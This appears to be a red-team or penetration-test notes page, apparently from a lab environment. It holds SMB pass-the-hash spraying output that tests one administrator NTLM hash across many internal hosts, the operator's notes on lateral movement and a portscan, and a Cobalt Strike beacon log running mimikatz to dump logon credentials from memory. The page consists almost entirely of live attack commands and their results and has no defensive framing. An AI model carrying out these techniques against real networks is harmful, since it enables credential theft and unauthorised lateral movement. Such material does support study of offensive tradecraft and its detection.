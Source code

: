 ```powershell
SMB         172.16.1.36     445    WSADM            [-] WSADM\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_LOGON_FAILURE 
SMB         172.16.1.26     445    FS01             [-] FS01\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_ACCOUNT_DISABLED 
SMB         172.16.1.30     445    MS01             [-] MS01\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_ACCOUNT_DISABLED 
SMB         172.16.1.15     445    SQL01            [-] SQL01\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_ACCOUNT_DISABLED 
SMB         172.16.1.24     445    WEB-WIN01        [-] WEB-WIN01\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_LOGON_FAILURE 
SMB         172.16.1.101    445    WS02             [-] WS02\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_LOGON_FAILURE 
SMB         172.16.1.200    445    DC0              [*] Windows 10.0 Build 17763 x64 (name:DC0) (domain:DC0) (signing:True) (SMBv1:False)
SMB         172.16.1.201    445    JOE-LPTP         [*] Windows 10.0 Build 19041 x64 (name:JOE-LPTP) (domain:JOE-LPTP) (signing:False) (SMBv1:False)
SMB         172.16.1.200    445    DC0              [-] DC0\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_LOGON_FAILURE 
SMB         172.16.1.201    445    JOE-LPTP         [-] JOE-LPTP\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_LOGON_FAILURE 
SMB         172.16.1.220    445    SRV01            [*] Windows Server 2016 Standard 14393 x64 (name:SRV01) (domain:SRV01) (signing:True) (SMBv1:True)
SMB         172.16.1.220    445    SRV01            [-] SRV01\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_LOGON_FAILURE 

- Might be able to get to SRV01 with hashes
- portscan 172.16.1.220 1-1024,5000-6000 arp 1024

```
dumped hashes from memory
```powershell
[10/06 16:57:34] beacon> mimikatz !sekurlsa::logonpasswords
[10/06 16:58:00] [*] Tasked beacon to run mimikatz's !sekurlsa::logonpasswords command
[10/06 16:58:05] [+] host called home, sent: 813691 bytes
[10/06 16:58:08] [+] received output:

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : MS01$
Domain            : CORP
Logon Server      : (null)
Logon Time        : 10/5/2023 9:39:07 AM
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : MS01$
	 * Domain   : CORP
	 * Password : (null)
	kerberos :	
	 * Username : ms01$
	 * Domain   : CORP.LOCAL
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 37959328 (00000000:024336a0)
Session           : NewCredentials from 0
User Name         : SYSTEM
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 10/6/2023 12:20:30 PM
SID               : S-1-5-18
```